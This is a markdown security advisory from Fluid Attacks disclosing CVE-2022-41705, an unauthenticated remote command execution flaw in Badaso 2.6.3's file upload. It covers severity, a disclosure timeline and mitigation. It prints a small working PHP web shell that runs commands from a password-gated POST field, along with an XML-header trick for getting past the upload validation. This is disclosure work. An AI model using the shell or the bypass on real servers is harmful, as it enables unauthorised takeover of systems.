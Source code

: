 ```yaml
---
slug: advisories/headhunterz/
title: Badaso 2.6.3 - Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: headhunterz
product: Badaso 2.6.3 - RCE
date: 2022-11-16 11:00 COT
cveid: CVE-2022-41705
severity: 10.0
description: Badaso 2.6.3    -    Remote Command Execution (RCE)
keywords: Fluid Attacks, Security, Vulnerabilities, Badaso, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Badaso 2.6.3 - RCE                                                 |
| **Code name**         | [Headhunterz](https://en.wikipedia.org/wiki/Headhunterz)           |
| **Product**           | Badaso                                                             |
| **Affected versions** | Version 2.6.3                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-11-16                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Remote command execution                                                                                                    |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)                                 |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 10.0                                                                                                                        |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41705](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41705)                                             |

## Description

Badaso version 2.6.3 allows an unauthenticated remote attacker to
execute arbitrary code remotely on the server. This is possible
because the application does not properly validate the data uploaded
by users.

## Vulnerability

This vulnerability occurs because the application does not correctly
validate files uploaded by users. Thanks to this, we uploaded a file
with malicious PHP code, instead of an image file.

## Exploitation

To exploit this vulnerability, the following file must be sent to the
server:

### exploit.php

```php
<?xml version="1.0" standalone="no"?>
<?php
    if($_POST && $_POST['password']==="AGSH635479302H235") {
        echo system($_POST['cmd']);
    }
?>
```

It is important to put an XML header before the malicious code to
bypass security controls.

## Evidence of exploitation

![RCE-badaso](https://user-images.githubusercontent.com/51862990/196501094-37997697-2346-42a6-891c-b2044cf8d0b8.gif)

![image](https://user-images.githubusercontent.com/51862990/196500837-06a8ce8a-3fff-42cc-b3b9-8aad023719f2.png)

## Our security policy

We have reserved the CVE-2022-41705 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Badaso 2.6.3

* Operating System: GNU/Linux

## Mitigation

An updated version of Badaso is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/uasoft-indonesia/badaso>

**Issue** <https://github.com/uasoft-indonesia/badaso/issues/818>

## Timeline

<time-lapse
  discovered="2022-10-24"
  contacted="2022-10-24"
  replied="2022-10-24"
  confirmed="2022-10-26"
  patched="2022-11-15"
  disclosure="2022-11-16">
</time-lapse>
